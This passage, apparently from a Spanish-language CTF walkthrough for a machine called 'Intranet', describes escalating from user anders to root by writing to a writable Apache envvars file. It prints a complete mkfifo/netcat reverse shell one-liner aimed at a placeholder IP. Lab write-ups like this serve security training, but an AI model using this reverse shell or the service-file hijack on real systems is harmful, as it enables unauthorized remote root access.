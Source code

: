 ## Shell /anders

Enumeramos el usuario utilizando `sudo -l` para verificar los permisos que podemos obtener con `sudo`, y encontramos lo siguiente relacionado con el servicio Apache.

<figure><img src="../.gitbook/assets/Intranet/sudo-l.png" alt=""><figcaption></figcaption></figure>

Buscamos algún elemento en la biblioteca de `Apache` donde podamos sobre-escribir y encontramos uno en `/etc/apache2`. El usuario `anders` tiene permisos para modificar el archivo `envvars`.

<figure><img src="../.gitbook/assets/Intranet/envvars.png" alt=""><figcaption></figcaption></figure>

Aquí podemos insertar otra reverse shell para obtener permisos de `root`. Solo necesitamos crear nuestra reverse shell utilizando el siguiente código:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ip> 4244 >/tmp/f
```
